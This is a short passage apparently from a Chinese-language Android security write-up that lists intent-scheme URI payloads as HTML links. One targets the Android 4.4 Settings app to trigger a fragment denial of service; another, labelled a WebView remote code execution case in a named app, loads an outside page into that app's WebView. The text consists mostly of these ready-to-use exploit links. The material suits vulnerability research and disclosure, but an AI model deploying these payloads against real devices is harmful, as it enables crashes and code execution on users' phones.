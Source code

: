 	<a href="intent:#Intent;S.:android:show_fragment=XXXX;launchFlags=0x00008000;SEL;component=com.android.settings/com.android.settings.Settings;end">
    17、fragment dos android 4.4 (selector)
	</a><br>

![](img/fragdos.jpg)

**案例7:webview RCE**

	<a href="intent:#Intent;component=com.gift.android/.activity.WebViewIndexActivity;S.url=http://drops.wooyun.org/webview.html;S.title=WebView;end">
    15、驴妈妈代码执行（fixed）
	</a><br>

![](img/lvmm.jpg)
